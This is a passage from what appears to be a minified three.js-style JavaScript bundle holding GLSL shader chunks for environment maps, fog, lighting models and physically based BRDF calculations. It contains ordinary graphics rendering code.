else {\n\t\t\tmip = - 2.0 * log2( 1.16 * roughness );\t\t}\n\t\treturn mip;\n\t}\n\tvec4 textureCubeUV( sampler2D envMap, vec3 sampleDir, float roughness ) {\n\t\tfloat mip = clamp( roughnessToMip( roughness ), cubeUV_m0, CUBEUV_MAX_MIP );\n\t\tfloat mipF = fract( mip );\n\t\tfloat mipInt = floor( mip );\n\t\tvec3 color0 = bilinearCubeUV( envMap, sampleDir, mipInt );\n\t\tif ( mipF == 0.0 ) {\n\t\t\treturn vec4( color0, 1.0 );\n\t\t} else {\n\t\t\tvec3 color1 = bilinearCubeUV( envMap, sampleDir, mipInt + 1.0 );\n\t\t\treturn vec4( mix( color0, color1, mipF ), 1.0 );\n\t\t}\n\t}\n#endif",defaultnormal_vertex:"vec3 transformedNormal = objectNormal;\n#ifdef USE_TANGENT\n\tvec3 transformedTangent = objectTangent;\n#endif\n#ifdef USE_BATCHING\n\tmat3 bm = mat3( batchingMatrix );\n\ttransformedNormal /= vec3( dot( bm[ 0 ], bm[ 0 ] ), dot( bm[ 1 ], bm[ 1 ] ), dot( bm[ 2 ], bm[ 2 ] ) );\n\ttransformedNormal = bm * transformedNormal;\n\t#ifdef USE_TANGENT\n\t\ttransformedTangent = bm * transformedTangent;\n\t#endif\n#endif\n#ifdef USE_INSTANCING\n\tmat3 im = mat3( instanceMatrix );\n\ttransformedNormal /= vec3( dot( im[ 0 ], im[ 0 ] ), dot( im[ 1 ], im[ 1 ] ), dot( im[ 2 ], im[ 2 ] ) );\n\ttransformedNormal = im * transformedNormal;\n\t#ifdef USE_TANGENT\n\t\ttransformedTangent = im * transformedTangent;\n\t#endif\n#endif\ntransformedNormal = normalMatrix * transformedNormal;\n#ifdef FLIP_SIDED\n\ttransformedNormal = - transformedNormal;\n#endif\n#ifdef USE_TANGENT\n\ttransformedTangent = ( modelViewMatrix * vec4( transformedTangent, 0.0 ) ).xyz;\n\t#ifdef FLIP_SIDED\n\t\ttransformedTangent = - transformedTangent;\n\t#endif\n#endif",displacementmap_pars_vertex:"#ifdef USE_DISPLACEMENTMAP\n\tuniform sampler2D displacementMap;\n\tuniform float displacementScale;\n\tuniform float displacementBias;\n#endif",displacementmap_vertex:"#ifdef USE_DISPLACEMENTMAP\n\ttransformed += normalize( objectNormal ) * ( texture2D( displacementMap, vDisplacementMapUv ).x * displacementScale + displacementBias );\n#endif",emissivemap_fragment:"#ifdef USE_EMISSIVEMAP\n\tvec4 emissiveColor = texture2D( emissiveMap, vEmissiveMapUv );\n\ttotalEmissiveRadiance *= emissiveColor.rgb;\n#endif",emissivemap_pars_fragment:"#ifdef USE_EMISSIVEMAP\n\tuniform sampler2D emissiveMap;\n#endif",colorspace_fragment:"gl_FragColor = linearToOutputTexel( gl_FragColor );",colorspace_pars_fragment:"\nconst mat3 LINEAR_SRGB_TO_LINEAR_DISPLAY_P3 = mat3(\n\tvec3( 0.8224621, 0.177538, 0.0 ),\n\tvec3( 0.0331941, 0.9668058, 0.0 ),\n\tvec3( 0.0170827, 0.0723974, 0.9105199 )\n);\nconst mat3 LINEAR_DISPLAY_P3_TO_LINEAR_SRGB = mat3(\n\tvec3( 1.2249401, - 0.2249404, 0.0 ),\n\tvec3( - 0.0420569, 1.0420571, 0.0 ),\n\tvec3( - 0.0196376, - 0.0786361, 1.0982735 )\n);\nvec4 LinearSRGBToLinearDisplayP3( in vec4 value ) {\n\treturn vec4( value.rgb * LINEAR_SRGB_TO_LINEAR_DISPLAY_P3, value.a );\n}\nvec4 LinearDisplayP3ToLinearSRGB( in vec4 value ) {\n\treturn vec4( value.rgb * LINEAR_DISPLAY_P3_TO_LINEAR_SRGB, value.a );\n}\nvec4 LinearTransferOETF( in vec4 value ) {\n\treturn value;\n}\nvec4 sRGBTransferOETF( in vec4 value ) {\n\treturn vec4( mix( pow( value.rgb, vec3( 0.41666 ) ) * 1.055 - vec3( 0.055 ), value.rgb * 12.92, vec3( lessThanEqual( value.rgb, vec3( 0.0031308 ) ) ) ), value.a );\n}",envmap_fragment:"#ifdef USE_ENVMAP\n\t#ifdef ENV_WORLDPOS\n\t\tvec3 cameraToFrag;\n\t\tif ( isOrthographic ) {\n\t\t\tcameraToFrag = normalize( vec3( - viewMatrix[ 0 ][ 2 ], - viewMatrix[ 1 ][ 2 ], - viewMatrix[ 2 ][ 2 ] ) );\n\t\t} else {\n\t\t\tcameraToFrag = normalize( vWorldPosition - cameraPosition );\n\t\t}\n\t\tvec3 worldNormal = inverseTransformDirection( normal, viewMatrix );\n\t\t#ifdef ENVMAP_MODE_REFLECTION\n\t\t\tvec3 reflectVec = reflect( cameraToFrag, worldNormal );\n\t\t#else\n\t\t\tvec3 reflectVec = refract( cameraToFrag, worldNormal, refractionRatio );\n\t\t#endif\n\t#else\n\t\tvec3 reflectVec = vReflect;\n\t#endif\n\t#ifdef ENVMAP_TYPE_CUBE\n\t\tvec4 envColor = textureCube( envMap, envMapRotation * vec3( flipEnvMap * reflectVec.x, reflectVec.yz ) );\n\t#else\n\t\tvec4 envColor = vec4( 0.0 );\n\t#endif\n\t#ifdef ENVMAP_BLENDING_MULTIPLY\n\t\toutgoingLight = mix( outgoingLight, outgoingLight * envColor.xyz, specularStrength * reflectivity );\n\t#elif defined( ENVMAP_BLENDING_MIX )\n\t\toutgoingLight = mix( outgoingLight, envColor.xyz, specularStrength * reflectivity );\n\t#elif defined( ENVMAP_BLENDING_ADD )\n\t\toutgoingLight += envColor.xyz * specularStrength * reflectivity;\n\t#endif\n#endif",envmap_common_pars_fragment:"#ifdef USE_ENVMAP\n\tuniform float envMapIntensity;\n\tuniform float flipEnvMap;\n\tuniform mat3 envMapRotation;\n\t#ifdef ENVMAP_TYPE_CUBE\n\t\tuniform samplerCube envMap;\n\t#else\n\t\tuniform sampler2D envMap;\n\t#endif\n\t\n#endif",envmap_pars_fragment:"#ifdef USE_ENVMAP\n\tuniform float reflectivity;\n\t#if defined( USE_BUMPMAP ) || defined( USE_NORMALMAP ) || defined( PHONG ) || defined( LAMBERT )\n\t\t#define ENV_WORLDPOS\n\t#endif\n\t#ifdef ENV_WORLDPOS\n\t\tvarying vec3 vWorldPosition;\n\t\tuniform float refractionRatio;\n\t#else\n\t\tvarying vec3 vReflect;\n\t#endif\n#endif",envmap_pars_vertex:"#ifdef USE_ENVMAP\n\t#if defined( USE_BUMPMAP ) || defined( USE_NORMALMAP ) || defined( PHONG ) || defined( LAMBERT )\n\t\t#define ENV_WORLDPOS\n\t#endif\n\t#ifdef ENV_WORLDPOS\n\t\t\n\t\tvarying vec3 vWorldPosition;\n\t#else\n\t\tvarying vec3 vReflect;\n\t\tuniform float refractionRatio;\n\t#endif\n#endif",envmap_physical_pars_fragment:"#ifdef USE_ENVMAP\n\tvec3 getIBLIrradiance( const in vec3 normal ) {\n\t\t#ifdef ENVMAP_TYPE_CUBE_UV\n\t\t\tvec3 worldNormal = inverseTransformDirection( normal, viewMatrix );\n\t\t\tvec4 envMapColor = textureCubeUV( envMap, envMapRotation * worldNormal, 1.0 );\n\t\t\treturn PI * envMapColor.rgb * envMapIntensity;\n\t\t#else\n\t\t\treturn vec3( 0.0 );\n\t\t#endif\n\t}\n\tvec3 getIBLRadiance( const in vec3 viewDir, const in vec3 normal, const in float roughness ) {\n\t\t#ifdef ENVMAP_TYPE_CUBE_UV\n\t\t\tvec3 reflectVec = reflect( - viewDir, normal );\n\t\t\treflectVec = normalize( mix( reflectVec, normal, roughness * roughness) );\n\t\t\treflectVec = inverseTransformDirection( reflectVec, viewMatrix );\n\t\t\tvec4 envMapColor = textureCubeUV( envMap, envMapRotation * reflectVec, roughness );\n\t\t\treturn envMapColor.rgb * envMapIntensity;\n\t\t#else\n\t\t\treturn vec3( 0.0 );\n\t\t#endif\n\t}\n\t#ifdef USE_ANISOTROPY\n\t\tvec3 getIBLAnisotropyRadiance( const in vec3 viewDir, const in vec3 normal, const in float roughness, const in vec3 bitangent, const in float anisotropy ) {\n\t\t\t#ifdef ENVMAP_TYPE_CUBE_UV\n\t\t\t\tvec3 bentNormal = cross( bitangent, viewDir );\n\t\t\t\tbentNormal = normalize( cross( bentNormal, bitangent ) );\n\t\t\t\tbentNormal = normalize( mix( bentNormal, normal, pow2( pow2( 1.0 - anisotropy * ( 1.0 - roughness ) ) ) ) );\n\t\t\t\treturn getIBLRadiance( viewDir, bentNormal, roughness );\n\t\t\t#else\n\t\t\t\treturn vec3( 0.0 );\n\t\t\t#endif\n\t\t}\n\t#endif\n#endif",envmap_vertex:"#ifdef USE_ENVMAP\n\t#ifdef ENV_WORLDPOS\n\t\tvWorldPosition = worldPosition.xyz;\n\t#else\n\t\tvec3 cameraToVertex;\n\t\tif ( isOrthographic ) {\n\t\t\tcameraToVertex = normalize( vec3( - viewMatrix[ 0 ][ 2 ], - viewMatrix[ 1 ][ 2 ], - viewMatrix[ 2 ][ 2 ] ) );\n\t\t} else {\n\t\t\tcameraToVertex = normalize( worldPosition.xyz - cameraPosition );\n\t\t}\n\t\tvec3 worldNormal = inverseTransformDirection( transformedNormal, viewMatrix );\n\t\t#ifdef ENVMAP_MODE_REFLECTION\n\t\t\tvReflect = reflect( cameraToVertex, worldNormal );\n\t\t#else\n\t\t\tvReflect = refract( cameraToVertex, worldNormal, refractionRatio );\n\t\t#endif\n\t#endif\n#endif",fog_vertex:"#ifdef USE_FOG\n\tvFogDepth = - mvPosition.z;\n#endif",fog_pars_vertex:"#ifdef USE_FOG\n\tvarying float vFogDepth;\n#endif",fog_fragment:"#ifdef USE_FOG\n\t#ifdef FOG_EXP2\n\t\tfloat fogFactor = 1.0 - exp( - fogDensity * fogDensity * vFogDepth * vFogDepth );\n\t#else\n\t\tfloat fogFactor = smoothstep( fogNear, fogFar, vFogDepth );\n\t#endif\n\tgl_FragColor.rgb = mix( gl_FragColor.rgb, fogColor, fogFactor );\n#endif",fog_pars_fragment:"#ifdef USE_FOG\n\tuniform vec3 fogColor;\n\tvarying float vFogDepth;\n\t#ifdef FOG_EXP2\n\t\tuniform float fogDensity;\n\t#else\n\t\tuniform float fogNear;\n\t\tuniform float fogFar;\n\t#endif\n#endif",gradientmap_pars_fragment:"#ifdef USE_GRADIENTMAP\n\tuniform sampler2D gradientMap;\n#endif\nvec3 getGradientIrradiance( vec3 normal, vec3 lightDirection ) {\n\tfloat dotNL = dot( normal, lightDirection );\n\tvec2 coord = vec2( dotNL * 0.5 + 0.5, 0.0 );\n\t#ifdef USE_GRADIENTMAP\n\t\treturn vec3( texture2D( gradientMap, coord ).r );\n\t#else\n\t\tvec2 fw = fwidth( coord ) * 0.5;\n\t\treturn mix( vec3( 0.7 ), vec3( 1.0 ), smoothstep( 0.7 - fw.x, 0.7 + fw.x, coord.x ) );\n\t#endif\n}",lightmap_pars_fragment:"#ifdef USE_LIGHTMAP\n\tuniform sampler2D lightMap;\n\tuniform float lightMapIntensity;\n#endif",lights_lambert_fragment:"LambertMaterial material;\nmaterial.diffuseColor = diffuseColor.rgb;\nmaterial.specularStrength = specularStrength;",lights_lambert_pars_fragment:"varying vec3 vViewPosition;\nstruct LambertMaterial {\n\tvec3 diffuseColor;\n\tfloat specularStrength;\n};\nvoid RE_Direct_Lambert( const in IncidentLight directLight, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in LambertMaterial material, inout ReflectedLight reflectedLight ) {\n\tfloat dotNL = saturate( dot( geometryNormal, directLight.direction ) );\n\tvec3 irradiance = dotNL * directLight.color;\n\treflectedLight.directDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\n}\nvoid RE_IndirectDiffuse_Lambert( const in vec3 irradiance, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in LambertMaterial material, inout ReflectedLight reflectedLight ) {\n\treflectedLight.indirectDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\n}\n#define RE_Direct\t\t\t\tRE_Direct_Lambert\n#define RE_IndirectDiffuse\t\tRE_IndirectDiffuse_Lambert",lights_pars_begin:"uniform bool receiveShadow;\nuniform vec3 ambientLightColor;\n#if defined( USE_LIGHT_PROBES )\n\tuniform vec3 lightProbe[ 9 ];\n#endif\nvec3 shGetIrradianceAt( in vec3 normal, in vec3 shCoefficients[ 9 ] ) {\n\tfloat x = normal.x, y = normal.y, z = normal.z;\n\tvec3 result = shCoefficients[ 0 ] * 0.886227;\n\tresult += shCoefficients[ 1 ] * 2.0 * 0.511664 * y;\n\tresult += shCoefficients[ 2 ] * 2.0 * 0.511664 * z;\n\tresult += shCoefficients[ 3 ] * 2.0 * 0.511664 * x;\n\tresult += shCoefficients[ 4 ] * 2.0 * 0.429043 * x * y;\n\tresult += shCoefficients[ 5 ] * 2.0 * 0.429043 * y * z;\n\tresult += shCoefficients[ 6 ] * ( 0.743125 * z * z - 0.247708 );\n\tresult += shCoefficients[ 7 ] * 2.0 * 0.429043 * x * z;\n\tresult += shCoefficients[ 8 ] * 0.429043 * ( x * x - y * y );\n\treturn result;\n}\nvec3 getLightProbeIrradiance( const in vec3 lightProbe[ 9 ], const in vec3 normal ) {\n\tvec3 worldNormal = inverseTransformDirection( normal, viewMatrix );\n\tvec3 irradiance = shGetIrradianceAt( worldNormal, lightProbe );\n\treturn irradiance;\n}\nvec3 getAmbientLightIrradiance( const in vec3 ambientLightColor ) {\n\tvec3 irradiance = ambientLightColor;\n\treturn irradiance;\n}\nfloat getDistanceAttenuation( const in float lightDistance, const in float cutoffDistance, const in float decayExponent ) {\n\tfloat distanceFalloff = 1.0 / max( pow( lightDistance, decayExponent ), 0.01 );\n\tif ( cutoffDistance > 0.0 ) {\n\t\tdistanceFalloff *= pow2( saturate( 1.0 - pow4( lightDistance / cutoffDistance ) ) );\n\t}\n\treturn distanceFalloff;\n}\nfloat getSpotAttenuation( const in float coneCosine, const in float penumbraCosine, const in float angleCosine ) {\n\treturn smoothstep( coneCosine, penumbraCosine, angleCosine );\n}\n#if NUM_DIR_LIGHTS > 0\n\tstruct DirectionalLight {\n\t\tvec3 direction;\n\t\tvec3 color;\n\t};\n\tuniform DirectionalLight directionalLights[ NUM_DIR_LIGHTS ];\n\tvoid getDirectionalLightInfo( const in DirectionalLight directionalLight, out IncidentLight light ) {\n\t\tlight.color = directionalLight.color;\n\t\tlight.direction = directionalLight.direction;\n\t\tlight.visible = true;\n\t}\n#endif\n#if NUM_POINT_LIGHTS > 0\n\tstruct PointLight {\n\t\tvec3 position;\n\t\tvec3 color;\n\t\tfloat distance;\n\t\tfloat decay;\n\t};\n\tuniform PointLight pointLights[ NUM_POINT_LIGHTS ];\n\tvoid getPointLightInfo( const in PointLight pointLight, const in vec3 geometryPosition, out IncidentLight light ) {\n\t\tvec3 lVector = pointLight.position - geometryPosition;\n\t\tlight.direction = normalize( lVector );\n\t\tfloat lightDistance = length( lVector );\n\t\tlight.color = pointLight.color;\n\t\tlight.color *= getDistanceAttenuation( lightDistance, pointLight.distance, pointLight.decay );\n\t\tlight.visible = ( light.color != vec3( 0.0 ) );\n\t}\n#endif\n#if NUM_SPOT_LIGHTS > 0\n\tstruct SpotLight {\n\t\tvec3 position;\n\t\tvec3 direction;\n\t\tvec3 color;\n\t\tfloat distance;\n\t\tfloat decay;\n\t\tfloat coneCos;\n\t\tfloat penumbraCos;\n\t};\n\tuniform SpotLight spotLights[ NUM_SPOT_LIGHTS ];\n\tvoid getSpotLightInfo( const in SpotLight spotLight, const in vec3 geometryPosition, out IncidentLight light ) {\n\t\tvec3 lVector = spotLight.position - geometryPosition;\n\t\tlight.direction = normalize( lVector );\n\t\tfloat angleCos = dot( light.direction, spotLight.direction );\n\t\tfloat spotAttenuation = getSpotAttenuation( spotLight.coneCos, spotLight.penumbraCos, angleCos );\n\t\tif ( spotAttenuation > 0.0 ) {\n\t\t\tfloat lightDistance = length( lVector );\n\t\t\tlight.color = spotLight.color * spotAttenuation;\n\t\t\tlight.color *= getDistanceAttenuation( lightDistance, spotLight.distance, spotLight.decay );\n\t\t\tlight.visible = ( light.color != vec3( 0.0 ) );\n\t\t} else {\n\t\t\tlight.color = vec3( 0.0 );\n\t\t\tlight.visible = false;\n\t\t}\n\t}\n#endif\n#if NUM_RECT_AREA_LIGHTS > 0\n\tstruct RectAreaLight {\n\t\tvec3 color;\n\t\tvec3 position;\n\t\tvec3 halfWidth;\n\t\tvec3 halfHeight;\n\t};\n\tuniform sampler2D ltc_1;\tuniform sampler2D ltc_2;\n\tuniform RectAreaLight rectAreaLights[ NUM_RECT_AREA_LIGHTS ];\n#endif\n#if NUM_HEMI_LIGHTS > 0\n\tstruct HemisphereLight {\n\t\tvec3 direction;\n\t\tvec3 skyColor;\n\t\tvec3 groundColor;\n\t};\n\tuniform HemisphereLight hemisphereLights[ NUM_HEMI_LIGHTS ];\n\tvec3 getHemisphereLightIrradiance( const in HemisphereLight hemiLight, const in vec3 normal ) {\n\t\tfloat dotNL = dot( normal, hemiLight.direction );\n\t\tfloat hemiDiffuseWeight = 0.5 * dotNL + 0.5;\n\t\tvec3 irradiance = mix( hemiLight.groundColor, hemiLight.skyColor, hemiDiffuseWeight );\n\t\treturn irradiance;\n\t}\n#endif",lights_toon_fragment:"ToonMaterial material;\nmaterial.diffuseColor = diffuseColor.rgb;",lights_toon_pars_fragment:"varying vec3 vViewPosition;\nstruct ToonMaterial {\n\tvec3 diffuseColor;\n};\nvoid RE_Direct_Toon( const in IncidentLight directLight, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in ToonMaterial material, inout ReflectedLight reflectedLight ) {\n\tvec3 irradiance = getGradientIrradiance( geometryNormal, directLight.direction ) * directLight.color;\n\treflectedLight.directDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\n}\nvoid RE_IndirectDiffuse_Toon( const in vec3 irradiance, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in ToonMaterial material, inout ReflectedLight reflectedLight ) {\n\treflectedLight.indirectDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\n}\n#define RE_Direct\t\t\t\tRE_Direct_Toon\n#define RE_IndirectDiffuse\t\tRE_IndirectDiffuse_Toon",lights_phong_fragment:"BlinnPhongMaterial material;\nmaterial.diffuseColor = diffuseColor.rgb;\nmaterial.specularColor = specular;\nmaterial.specularShininess = shininess;\nmaterial.specularStrength = specularStrength;",lights_phong_pars_fragment:"varying vec3 vViewPosition;\nstruct BlinnPhongMaterial {\n\tvec3 diffuseColor;\n\tvec3 specularColor;\n\tfloat specularShininess;\n\tfloat specularStrength;\n};\nvoid RE_Direct_BlinnPhong( const in IncidentLight directLight, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in BlinnPhongMaterial material, inout ReflectedLight reflectedLight ) {\n\tfloat dotNL = saturate( dot( geometryNormal, directLight.direction ) );\n\tvec3 irradiance = dotNL * directLight.color;\n\treflectedLight.directDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\n\treflectedLight.directSpecular += irradiance * BRDF_BlinnPhong( directLight.direction, geometryViewDir, geometryNormal, material.specularColor, material.specularShininess ) * material.specularStrength;\n}\nvoid RE_IndirectDiffuse_BlinnPhong( const in vec3 irradiance, const in vec3 geometryPosition, const in vec3 geometryNormal, const in vec3 geometryViewDir, const in vec3 geometryClearcoatNormal, const in BlinnPhongMaterial material, inout ReflectedLight reflectedLight ) {\n\treflectedLight.indirectDiffuse += irradiance * BRDF_Lambert( material.diffuseColor );\n}\n#define RE_Direct\t\t\t\tRE_Direct_BlinnPhong\n#define RE_IndirectDiffuse\t\tRE_IndirectDiffuse_BlinnPhong",lights_physical_fragment:"PhysicalMaterial material;\nmaterial.diffuseColor = diffuseColor.rgb * ( 1.0 - metalnessFactor );\nvec3 dxy = max( abs( dFdx( nonPerturbedNormal ) ), abs( dFdy( nonPerturbedNormal ) ) );\nfloat geometryRoughness = max( max( dxy.x, dxy.y ), dxy.z );\nmaterial.roughness = max( roughnessFactor, 0.0525 );material.roughness += geometryRoughness;\nmaterial.roughness = min( material.roughness, 1.0 );\n#ifdef IOR\n\tmaterial.ior = ior;\n\t#ifdef USE_SPECULAR\n\t\tfloat specularIntensityFactor = specularIntensity;\n\t\tvec3 specularColorFactor = specularColor;\n\t\t#ifdef USE_SPECULAR_COLORMAP\n\t\t\tspecularColorFactor *= texture2D( specularColorMap, vSpecularColorMapUv ).rgb;\n\t\t#endif\n\t\t#ifdef USE_SPECULAR_INTENSITYMAP\n\t\t\tspecularIntensityFactor *= texture2D( specularIntensityMap, vSpecularIntensityMapUv ).a;\n\t\t#endif\n\t\tmaterial.specularF90 = mix( specularIntensityFactor, 1.0, metalnessFactor );\n\t#else\n\t\tfloat specularIntensityFactor = 1.0;\n\t\tvec3 specularColorFactor = vec3( 1.0 );\n\t\tmaterial.specularF90 = 1.0;\n\t#endif\n\tmaterial.specularColor = mix( min( pow2( ( material.ior - 1.0 ) / ( material.ior + 1.0 ) ) * specularColorFactor, vec3( 1.0 ) ) * specularIntensityFactor, diffuseColor.rgb, metalnessFactor );\n#else\n\tmaterial.specularColor = mix( vec3( 0.04 ), diffuseColor.rgb, metalnessFactor );\n\tmaterial.specularF90 = 1.0;\n#endif\n#ifdef USE_CLEARCOAT\n\tmaterial.clearcoat = clearcoat;\n\tmaterial.clearcoatRoughness = clearcoatRoughness;\n\tmaterial.clearcoatF0 = vec3( 0.04 );\n\tmaterial.clearcoatF90 = 1.0;\n\t#ifdef USE_CLEARCOATMAP\n\t\tmaterial.clearcoat *= texture2D( clearcoatMap, vClearcoatMapUv ).x;\n\t#endif\n\t#ifdef USE_CLEARCOAT_ROUGHNESSMAP\n\t\tmaterial.clearcoatRoughness *= texture2D( clearcoatRoughnessMap, vClearcoatRoughnessMapUv ).y;\n\t#endif\n\tmaterial.clearcoat = saturate( material.clearcoat );\tmaterial.clearcoatRoughness = max( material.clearcoatRoughness, 0.0525 );\n\tmaterial.clearcoatRoughness += geometryRoughness;\n\tmaterial.clearcoatRoughness = min( material.clearcoatRoughness, 1.0 );\n#endif\n#ifdef USE_DISPERSION\n\tmaterial.dispersion = dispersion;\n#endif\n#ifdef USE_IRIDESCENCE\n\tmaterial.iridescence = iridescence;\n\tmaterial.iridescenceIOR = iridescenceIOR;\n\t#ifdef USE_IRIDESCENCEMAP\n\t\tmaterial.iridescence *= texture2D( iridescenceMap, vIridescenceMapUv ).r;\n\t#endif\n\t#ifdef USE_IRIDESCENCE_THICKNESSMAP\n\t\tmaterial.iridescenceThickness = (iridescenceThicknessMaximum - iridescenceThicknessMinimum) * texture2D( iridescenceThicknessMap, vIridescenceThicknessMapUv ).g + iridescenceThicknessMinimum;\n\t#else\n\t\tmaterial.iridescenceThickness = iridescenceThicknessMaximum;\n\t#endif\n#endif\n#ifdef USE_SHEEN\n\tmaterial.sheenColor = sheenColor;\n\t#ifdef USE_SHEEN_COLORMAP\n\t\tmaterial.sheenColor *= texture2D( sheenColorMap, vSheenColorMapUv ).rgb;\n\t#endif\n\tmaterial.sheenRoughness = clamp( sheenRoughness, 0.07, 1.0 );\n\t#ifdef USE_SHEEN_ROUGHNESSMAP\n\t\tmaterial.sheenRoughness *= texture2D( sheenRoughnessMap, vSheenRoughnessMapUv ).a;\n\t#endif\n#endif\n#ifdef USE_ANISOTROPY\n\t#ifdef USE_ANISOTROPYMAP\n\t\tmat2 anisotropyMat = mat2( anisotropyVector.x, anisotropyVector.y, - anisotropyVector.y, anisotropyVector.x );\n\t\tvec3 anisotropyPolar = texture2D( anisotropyMap, vAnisotropyMapUv ).rgb;\n\t\tvec2 anisotropyV = anisotropyMat * normalize( 2.0 * anisotropyPolar.rg - vec2( 1.0 ) ) * anisotropyPolar.b;\n\t#else\n\t\tvec2 anisotropyV = anisotropyVector;\n\t#endif\n\tmaterial.anisotropy = length( anisotropyV );\n\tif( material.anisotropy == 0.0 ) {\n\t\tanisotropyV = vec2( 1.0, 0.0 );\n\t} else {\n\t\tanisotropyV /= material.anisotropy;\n\t\tmaterial.anisotropy = saturate( material.anisotropy );\n\t}\n\tmaterial.alphaT = mix( pow2( material.roughness ), 1.0, pow2( material.anisotropy ) );\n\tmaterial.anisotropyT = tbn[ 0 ] * anisotropyV.x + tbn[ 1 ] * anisotropyV.y;\n\tmaterial.anisotropyB = tbn[ 1 ] * anisotropyV.x - tbn[ 0 ] * anisotropyV.y;\n#endif",lights_physical_pars_fragment:"struct PhysicalMaterial {\n\tvec3 diffuseColor;\n\tfloat roughness;\n\tvec3 specularColor;\n\tfloat specularF90;\n\tfloat dispersion;\n\t#ifdef USE_CLEARCOAT\n\t\tfloat clearcoat;\n\t\tfloat clearcoatRoughness;\n\t\tvec3 clearcoatF0;\n\t\tfloat clearcoatF90;\n\t#endif\n\t#ifdef USE_IRIDESCENCE\n\t\tfloat iridescence;\n\t\tfloat iridescenceIOR;\n\t\tfloat iridescenceThickness;\n\t\tvec3 iridescenceFresnel;\n\t\tvec3 iridescenceF0;\n\t#endif\n\t#ifdef USE_SHEEN\n\t\tvec3 sheenColor;\n\t\tfloat sheenRoughness;\n\t#endif\n\t#ifdef IOR\n\t\tfloat ior;\n\t#endif\n\t#ifdef USE_TRANSMISSION\n\t\tfloat transmission;\n\t\tfloat transmissionAlpha;\n\t\tfloat thickness;\n\t\tfloat attenuationDistance;\n\t\tvec3 attenuationColor;\n\t#endif\n\t#ifdef USE_ANISOTROPY\n\t\tfloat anisotropy;\n\t\tfloat alphaT;\n\t\tvec3 anisotropyT;\n\t\tvec3 anisotropyB;\n\t#endif\n};\nvec3 clearcoatSpecularDirect = vec3( 0.0 );\nvec3 clearcoatSpecularIndirect = vec3( 0.0 );\nvec3 sheenSpecularDirect = vec3( 0.0 );\nvec3 sheenSpecularIndirect = vec3(0.0 );\nvec3 Schlick_to_F0( const in vec3 f, const in float f90, const in float dotVH ) {\n    float x = clamp( 1.0 - dotVH, 0.0, 1.0 );\n    float x2 = x * x;\n    float x5 = clamp( x * x2 * x2, 0.0, 0.9999 );\n    return ( f - vec3( f90 ) * x5 ) / ( 1.0 - x5 );\n}\nfloat V_GGX_SmithCorrelated( const in float alpha, const in float dotNL, const in float dotNV ) {\n\tfloat a2 = pow2( alpha );\n\tfloat gv = dotNL * sqrt( a2 + ( 1.0 - a2 ) * pow2( dotNV ) );\n\tfloat gl = dotNV * sqrt( a2 + ( 1.0 - a2 ) * pow2( dotNL ) );\n\treturn 0.5 / max( gv + gl, EPSILON );\n}\nfloat D_GGX( const in float alpha, const in float dotNH ) {\n\tfloat a2 = pow2( alpha );\n\tfloat denom = pow2( dotNH ) * ( a2 - 1.0 ) + 1.0;\n\treturn RECIPROCAL_PI * a2 / pow2( denom );\n}\n#ifdef USE_ANISOTROPY\n\tfloat V_GGX_SmithCorrelated_Anisotropic( const in float alphaT, const in float alphaB, const in float dotTV, const in float dotBV, const in float dotTL, const in float dotBL, const in float dotNV, const in float dotNL ) {\n\t\tfloat gv = dotNL * length( vec3( alphaT * dotTV, alphaB * dotBV, dotNV ) );\n\t\tfloat gl = dotNV * length( vec3( alphaT * dotTL, alphaB * dotBL, dotNL ) );\n\t\tfloat v = 0.5 / ( gv + gl );\n\t\treturn saturate(v);\n\t}\n\tfloat D_GGX_Anisotropic( const in float alphaT, const in float alphaB, const in float dotNH, const in float dotTH, const in float dotBH ) {\n\t\tfloat a2 = alphaT * alphaB;\n\t\thighp vec3 v = vec3( alphaB * dotTH, alphaT * dotBH, a2 * dotNH );\n\t\thighp float v2 = dot( v, v );\n\t\tfloat w2 = a2 / v2;\n\t\treturn RECIPROCAL_PI * a2 * pow2 ( w2 );\n\t}\n#endif\n#ifdef USE_CLEARCOAT\n\tvec3 BRDF_GGX_Clearcoat( const in vec3 lightDir, const in vec3 viewDir, const in vec3 normal, const in PhysicalMaterial material) {\n\t\tvec3 f0 = material.clearcoatF0;\n\t\tfloat f90 = material.clearcoatF90;\n\t\tfloat roughness = material.clearcoatRoughness;\n\t\tfloat alpha = pow2( roughness );\n\t\tvec3 halfDir = normalize( lightDir + viewDir );\n\t\tfloat dotNL = saturate( dot( normal, lightDir ) );\n\t\tfloat dotNV = saturate( dot( normal, viewDir ) );\n\t\tfloat dotNH = saturate( dot( normal, halfDir ) );\n\t\tfloat dotVH = saturate( dot( viewDir, halfDir ) );\n\t\tvec3 F = F_Schlick( f0, f90, dotVH );\n\t\tfloat V = V_GGX_SmithCorrelated( alpha, dotNL, dotNV );\n\t\tfloat D = D_GGX( alpha, dotNH );\n\t\treturn F * ( V * D );\n\t}\n#endif\nvec3 BRDF_GGX( const in vec3 lightDir, const in vec3 viewDir, const in vec3 normal, const in PhysicalMaterial material ) {\n\tvec3 f0 = material.specularColor;\n\tfloat f90 = material.specularF90;\n\tfloat roughness = material.roughness;\n\tfloat alpha = pow2( roughness );\n\tvec3 halfDir = normalize( lightDir + viewDir );\n\tfloat dotNL = saturate( dot( normal, lightDir ) );\n\tfloat dotNV = saturate( dot( normal, viewDir ) );\n\tfloat dotNH = saturate( dot( normal, halfDir ) );\n\tfloat dotVH = saturate( dot( viewDir, halfDir ) );\n\tvec3 F = F_Schlick( f0, f90, dotVH );\n\t#ifdef USE_IRIDESCENCE\n\t\tF = mix( F, material.iridescenceFresnel, material.iridescence );\n\t#endif\n\t#ifdef USE_ANISOTROPY\n\t\tfloat dotTL = dot( material.anisotropyT, lightDir );\n\t\tfloat dotTV = dot( material.anisotropyT, viewDir );\n\t\tfloat dotTH = dot( material.anisotropyT, halfDir );\n\t\tfloat dotBL = dot( material.anisotropyB, lightDir );\n\t\tfloat dotBV 